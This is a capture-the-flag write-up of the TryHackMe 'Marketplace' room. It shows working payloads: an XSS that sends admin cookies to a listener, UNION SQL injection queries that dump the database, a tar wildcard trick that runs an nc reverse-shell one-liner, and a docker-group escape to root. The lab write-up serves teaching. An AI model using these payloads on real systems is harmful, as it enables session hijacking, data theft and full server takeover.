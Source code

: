 ```yaml
---
title: Marketplace tryhackme writeup
published: true
---
```


Today I bring you the writeup of [marketplace](https://tryhackme.com/room/marketplace), a tryhackme machine focused on web exploitation, here we go!

First we start with a port scan to see which ports are open.

```shell
nmap -p- --min-rate 5000 IP
```

With -p- we indicate that we want it to look at all ports and the --min-rate 5000 to do it very fast.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_1.png)

Now that we know the ports, let's scan them deeply to see versions and so on.

```shell
nmap -sC -sV -p22,80,32768 --min-rate 5000 IP
```

With -sC we indicate that we want to run the default nmap scripts and -sV to get the service versions.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_2.png)

We see that we get the robots.txt with /adminm then we will enter

We investigate ports 80 and 32768 and go to exactly the same web, so we will skip port 32768.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/web_home.png)

If we go to /admin it tells us this

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin.png)

We are going to register a new account to be able to see the product options and so on.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/registrar.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/logeo.png)

Let's enter a product and click on the two options below, the one to report the product and the one to write to the product creator.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/producto.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensage_creador.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_mandado.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/reportar_producto.png)

When reporting we get a message that the admin has checked the product; we have an option to create a product, we go there.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_despues_de_reportar_en_messages.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/new_listing.png)

Let's check if the creation of a product has xss and we could try to steal cookies from the admin when checking a report

```shell
<script>alert(1)</script>
<script>alert(2)</script>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nuevo_producto_con_xss_prueba.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_1_ok.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_2_ok.png)

We see that it is vulnerable, we are going to create another product to steal the cookies, but first we are going to open a python server to get them.

```shell
python3 -m http.server
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/python_server_para_xss_cookies_al_reportar.png)

Now to make the product for the cookies.

```shell
<img src=x onerror=this.src="http://IP:Port/?c="+document.cookie>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/Producto_roba_cookies.png)

When we enter the product and hit report we will get the admin cookies, now let's change ours for those and go to /admin.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/cookie_admin.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/panel_admin_con_cookies.png)

We are going to enter in some user that we get.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin_user_1.png)

If we see the url we can try a sqli.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/prueba_sqli.png)

It seems vulnerable, let's try to exploit it, with sqlmap I couldn't because the admin cookie changes every x time so you will have to get it again.

Let's see how many fields you have to write to do our tests.

```shell
user=1 order by 4-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/numero+de+columnas.png)

Now let's try to get the databases.

```shell
user=0 union select 1,group_concat(0x7c,schema_name,0x7c),3,4 from information_schema.schemata-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/databases.png)

We are interested in the database marketplace, now let's take out the tables it has.

```shell
user=0 union select 1,group_concat(0x7c,table_name,0x7c),3,4 from information_schema.tables where table_schema='marketplace'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/tablas.png)

We see a messages table that seems quite interesting since the others are in the admin panel itself, at least, apparently.

```shell
user=0 union select 1,group_concat(0x7c,column_name,0x7c),3,4 from information_schema.columns where table_name='messages'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nombre+de+columnas+de+tabla+mensajes.png)

Let's take a look at the message_content to see if it has anything interesting.

```shell
user=0 union select 1,group_concat(0x7c,message_content,0x7c),3,4 from marketplace.messages-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/contenido+de+los+mensajes,+donde+hay+ssh+password.png)

We see a password, and we have several usernames of accounts created before ours which are:
system
michael
jake

Let's try to connect via ssh to those accounts.

```shell
ssh jake@IP
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/shell+con+jake.png)

Let's look at the sudo permissions you have.

```shell
sudo -l
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/sudo+-l+jake.png)

We see that you have permissions with the user michael in a script, if we read that script we see that it makes a backup of everything in the /opt/backups folder.

To escalate privileges to michael we can use the [wildcards](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks#tar) of tar so that we get a reverse when we make the backup.

```shell
nc -lvp PORT
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/abrimos+puerto.png)

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" > shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod 777 shell.sh
chmod 777 backup.tar
sudo -u michael /opt/backups/backup.sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/comandos_movimiento_lateral.png)

We get the reverse and we are already michael.

```shell
id
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/grupo+docker+para+escalar.png)

We see that it is inside the [docker](https://gtfobins.github.io/gtfobins/docker/#shell) group, let's use that to escalate privileges.

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escalada+a+root.png)

And that's all! thanks for reading.
